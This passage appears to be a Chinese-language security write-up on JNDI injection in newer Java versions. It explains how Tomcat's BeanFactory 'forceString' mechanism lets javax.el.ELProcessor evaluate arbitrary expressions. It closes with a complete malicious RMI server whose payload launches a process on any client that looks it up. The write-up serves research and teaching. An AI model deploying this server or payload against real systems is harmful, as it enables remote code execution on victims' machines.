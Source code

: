 ![image-20220922180330569](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220922180330569.png)

### 高版本如何利用ldap实现攻击

我们知道高版本已经无法通过codebase获取javaFactory的class文件,所以我们想通过让客户端加载和实例化我们构建的javaFactory来实现攻击是不可能的了

但是还可以通过ldap实例化本地的javaFactory,并且用本地的javaFactory实例化一个本地存在的类所以现在的问题就是如何找到一个可以被利用的本地javaFactory类

>https://www.veracode.com/blog/research/exploiting-jndi-injections-java

参考文章中提到了tomcat携带的org.apache.naming.factory.BeanFactory类就是一个存在风险的ObjectFactory子类。通过该Factory我们可以通过默认构造函数实例化任意一个类，并调用其任意的只有一个String入参的公共方法，且其方法名可以不用是标准setter的名称，而可以是任意名称。因为我们可以通过forceString来制定某个String变量的setter方法名称。

![image-20220923135856558](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220923135856558.png)

在红框中会强制替换setterName和对应的param名称

![image-20220923140033950](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220923140033950.png)

之后将param和param对应的setter方法放到map  `forced`中

并在接下来的代码中进行调用

![image-20220923140150754](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220923140150754.png)

基于此能力,我们就可利用`javax.el.ELProcessor`类,因为其有默认公开的无参构造方法,还有个eval方法,只有一个String入参,其可以执行EL表达式,从而执行任意指令

>  这里埋个伏笔,完事可以尝试使用codeql来查询是否存在这样的类

evilServer

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class EvilRMIServerNew {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));
        
 //这里el表达式是通过""空字符串.getClass
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);
    }
}
```
